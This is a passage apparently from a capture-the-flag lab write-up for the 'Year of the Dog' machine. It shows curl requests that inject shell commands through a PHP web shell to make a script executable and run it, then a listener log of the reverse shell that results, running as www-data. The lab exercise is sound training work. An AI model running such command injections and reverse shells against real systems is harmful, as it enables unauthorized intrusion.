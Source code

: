 `curl -iLX GET http://yearofthedog.thm/shell_script.php?do=chmod%20+x%20shshell.sh`

![image.png](image%209.png)

`curl -iLX GET http://yearofthedog.thm/shell_script.php?do=bash%20shshell.sh`

![image.png](image%2010.png)

```bash
listening on [any] 11122 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.132.208] 35448
bash: cannot set terminal process group (770): Inappropriate ioctl for device
bash: no job control in this shell
www-data@year-of-the-dog:/var/www/html$ whoami
www-data
www-data@year-of-the-dog:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@year-of-the-dog:/var/www/html$ pwd
/var/www/html
www-data@year-of-the-dog:/var/www/html$ 
```
